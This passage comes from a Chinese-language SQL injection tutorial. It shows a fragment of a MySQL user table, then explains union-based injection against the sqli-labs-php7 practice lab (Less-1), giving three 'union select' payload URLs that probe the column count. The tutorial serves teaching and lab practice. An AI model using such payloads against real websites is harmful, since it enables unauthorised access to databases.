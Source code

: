 ```sql
|  5 | stupid                 |
|  6 | superman               |
|  7 | batman                 |
|  8 | admin                  |
|  9 | admin1                 |
| 10 | admin2                 |
| 11 | admin3                 |
| 12 | dhakkan                |
| 14 | admin4                 |
+----+------------------------+
21 rows in set (0.00 sec)


```
### 联合注入示例

联合注入关键在于确定数据库查询结果的列数，查询结果的列数，可以使用 使用 union select 或 order by 语句探测查询结果的字段。

如 [sqli-labs-php7](https://github.com/skyblueee/sqli-labs-php7) 的 Less-1

1. 使用 union select 语句爆破，payload 如下

```http
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' union select 1--+
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' union select 1,2--+
http://192.168.154.135/sqli-labs-php7/Less-1/?id=1' union select 1,2,3--+
```
前两个 payload 都是如下报错，union 前后两个语句列数不一样
![Alt text](images/sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86/image.png)
直到第三个 payload 才回显正确结果，说明原始查询结果有三列
![Alt text](images/sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86/image-1.png)
